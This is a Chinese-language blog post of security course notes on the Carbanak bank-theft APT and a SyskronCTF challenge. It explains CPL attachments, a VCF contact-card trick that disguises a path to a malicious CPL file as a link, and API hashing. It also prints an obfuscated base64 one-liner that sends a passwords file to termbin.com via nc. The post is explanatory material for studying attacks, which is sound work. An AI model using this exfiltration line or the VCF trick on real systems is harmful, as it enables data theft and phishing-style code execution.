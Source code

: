 ```yaml
---
layout: post
title:  "APT: Carbanak and SyskronCTF"
date:   2020-11-05 21:44:00
categories: CyberSecurity
tags: Course
---
```


### Carbanak

### Introduction

Carbanak是一個針對bank system的APT malware,在2014,2015年讓多家銀行的錢被盜走. 特色是有各種不同而且完整的後門包括key logger, file monitoring, screenshot來取得感染主機上的資訊並傳到攻擊者的c2 server.

![](/assets/images/notes/security/3-1.jpg)

### CPL with malicious attachment

CPL(Control panel)是windows control panel讀的script,有點像釣魚信件的感覺,攻擊者把惡意的程式碼放到CPL裡,這樣使用者點擊時就會執行到該惡意檔案.

### VCF attack

一種攻擊模式是利用contact file. Windows可以建立聯絡人資訊, 包含聯絡人名稱, 電話, 住址, 網站. 而其中網站那欄可以偽造一個看起來是url但實際上是指像惡意的CPL的路徑EX: `http.\\www.random4.cpl` , 攻擊者只要在上一層目錄建立一個http的資料夾,然後把www.random4.cpl放在http資料夾內, 當使用者點選這個連結時,就會執行www.random4.cpl這個檔案, 這樣就是類似釣魚的remote file execution. 因為windows把他解釋成一個位在http資料夾內的cpl檔案.

![](/assets/images/notes/security/3-2.jpg)

### termbin.com

termbin.com特色是 只要執行 `<command> | nc termbin.com 9999` 就會把前面的command輸出送到termbin上,termbin就會把它存起來並且回傳一段hash給你, 用那段hash去access termbin 就可以在網站上看到command的輸出值在網頁上. 因此這也是一種很常被駭客拿來隱藏自己行為的方法, 透過這種方法就可以偷偷把資料竊取,放在termbin上之後再去看資料內容.

Sample attack query: `echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash`

### api hashing(PJW)

能夠在程式碼內用hashstring方式呼叫windows API而不用真的寫出API名字,做到obfusticate的部分,讓分析更困難,會需要配合GetApiAddrFunc之類的函式來呼叫

解法: [hash api 對應表](https://pastebin.com/jsMiDgE1), 或者自己寫來找api name跟hash的對應

### Reference

[carbanak introduction](https://securelist.com/the-great-bank-robbery-the-carbanak-apt/68732/)<br />
[vcf attack in syskron ctf](https://github.com/MOCSCTF/CTF-Write-UP/blob/master/Misc/SyskronSecurityCTF2020%20-%20Contact%20Card/README.md)<br />
[termbin.com](http://termbin.com/)<br />
[Trendmicro CPL injection](https://www.trendmicro.com/en_us/research/13/l/control-panel-files-used-as-malicious-attachments.html)<br />
[Flare report](https://www.fireeye.com/blog/threat-research/2019/04/carbanak-week-part-one-a-rare-occurrence.html)